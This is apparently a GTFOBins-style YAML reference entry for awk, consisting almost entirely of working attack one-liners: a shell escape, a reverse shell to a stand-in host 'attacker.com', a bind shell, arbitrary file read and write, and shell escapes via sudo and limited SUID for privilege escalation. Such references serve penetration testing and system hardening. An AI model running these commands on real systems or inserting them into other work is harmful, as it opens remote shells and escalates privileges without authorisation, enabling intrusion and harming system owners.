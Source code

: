 ```yaml
---
name: awk
functions:
  shell:
    - code: awk 'BEGIN {system("/bin/sh")}'
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        awk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-write:
    - code: |
        LFILE=file_to_write
        awk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        awk '//' "$LFILE"
  sudo:
    - code: sudo awk 'BEGIN {system("/bin/sh")}'
  limited-suid:
    - code: ./awk 'BEGIN {system("/bin/sh")}'
---
```

